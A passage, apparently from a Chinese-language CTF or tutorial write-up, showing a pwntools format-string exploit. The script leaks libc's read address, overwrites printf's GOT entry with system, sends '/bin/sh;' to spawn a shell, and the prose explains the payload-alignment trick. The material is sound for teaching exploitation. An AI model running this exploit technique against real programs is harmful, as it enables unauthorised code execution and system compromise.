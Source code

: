 ```python
sh.recv()
read_addr = u64(data)

# get system addr
libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
log.success('system addr: ' + hex(system_addr))
log.success('read   addr: ' + hex(read_addr))
# modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
# get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()

# get shell
sh.sendline('/bin/sh;')
sh.interactive()
```

这里需要注意的是这一段代码

```python
# modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
# get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()
```

fmtstr_payload直接得到的payload会将地址放在前面，而这个会导致printf的时候'\x00'截断（**关于这一问题，pwntools目前正在开发fmt_payload的加强版，估计快开发出来了。**）。所以我使用了一些技巧将它放在后面了。主要的思想是，将地址放在后面8字节对齐的地方，并对payload中的偏移进行修改。需要注意的是

```python
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
```

这一行给出了修改后的地址在格式化字符串中的偏移，之所以是这样在于无论如何修改，由于'%order$hn'中order多出来的字符都不会大于8。具体的可以自行推导。
